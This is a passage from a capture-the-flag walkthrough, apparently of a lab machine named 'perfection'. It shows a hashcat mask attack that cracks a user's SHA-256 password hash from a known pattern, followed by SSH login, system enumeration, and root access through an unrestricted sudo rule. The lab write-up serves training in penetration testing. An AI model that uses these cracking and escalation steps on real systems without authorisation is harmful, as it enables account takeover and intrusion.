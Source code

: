 So we have found the password creation pattern. since we also have the password hash, we are in a position to launch a `hashcat` mask attack.
```markdown
> hashcat -m 1400 hash.txt -a 3 -d 1 susan_nasus_?d?d?d?d?d?d?d?d?d
```
This returns susan's password, which we can use to connect to the host via SSH.<br>
<br>
From the SSH shell, take the opportunity to enumerate the system.
```markdown
> uname -a && cat /etc/os-release

Linux perfection 5.15.0-97-generic #107-Ubuntu SMP Wed Feb 7 13:26:48 UTC 2024 x86_64 x86_64 x86_64 GNU/Linux
PRETTY_NAME="Ubuntu 22.04.4 LTS"
NAME="Ubuntu"
VERSION_ID="22.04"
VERSION="22.04.4 LTS (Jammy Jellyfish)"
VERSION_CODENAME=jammy
ID=ubuntu
ID_LIKE=debian
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
UBUNTU_CODENAME=jammy
```
Now that we have susan's password we can enumerate her `sudo` configuration.
```markdown
> sudo -l

[sudo] password for susan: 
Matching Defaults entries for susan on perfection:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User susan may run the following commands on perfection:
    (ALL : ALL) ALL
```
Nice, just proceed to spawn a root shell.
```markdown
> sudo su
```

![perfection7 Untitled](https://github.com/g1vi/AllTheWriteUps/assets/120142960/730dbc75-1889-4f1d-a149-6a021b9834f2)

You are root.
